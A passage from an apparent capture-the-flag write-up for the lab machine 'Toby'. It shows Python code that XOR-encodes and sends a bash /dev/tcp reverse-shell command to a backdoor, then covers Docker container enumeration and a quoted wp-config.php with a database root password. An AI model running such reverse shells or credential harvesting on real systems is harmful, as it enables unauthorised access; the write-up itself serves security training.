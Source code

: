 ```
print(f'[*] Session ID: {guid}')
msg = unhexlify(hex_msg.strip())
xor_msg = unhexlify(msg.split(b':')[-1])
xor_chr = xor_msg.split(b'_')[2]
assert(len(xor_chr) == 1)

print(f'[*] XOR key: {xor_chr.decode()}')
xor = ord(xor_chr)

cmd = f"bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'".encode()
encoded_cmd = bytes([x^xor for x in cmd])
print(f'[*] Triggering shell. Watch at listening nc.')
c.send(encoded_cmd)
resp = c.recv(1024).strip()
new_guid, msg = resp.split(b'|')
assert(new_guid == guid)
pt_msg = bytes([x^xor for x in unhexlify(msg)]).decode()
print(f'{pt_msg}')

c.close()
s.close()    

```

On running this, I get a reverse shell at a listening `nc`.

There were some interesting timing issues I ran into writing this, which I’ll go into on [this video](https://youtu.be/IF7bPHRDlv8):

## Shell as jack on mysql

### Enumeration

#### Docker

Very quickly it’s clear that I’m in a Docker container. There’s very few tools (no `ping`, `ifconfig`, `ip`, `ss`, `netstat`, etc.), `/home` is empty, and there’s a `.dockerenv` file in the system root. The hostname is wordpress.toby.htb. `/proc/net/fib_trie` shows an IP of 172.69.0.101.

The container is pretty empty. There’s a password and hostname for the MySQL DB in `/var/www/html/wp-config.php`:

```

...[snip]...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );           
                                                    
/** MySQL database username */                                                                           
define( 'DB_USER', 'root' );
                                                    
/** MySQL database password */
define( 'DB_PASSWORD', 'OnlyTheBestSecretsGoInShellScripts' );       
                                                    
/** MySQL hostname */
define( 'DB_HOST', 'mysql.toby.htb' );
                                                    
/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
                                                    
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' ); 
...[snip]...
```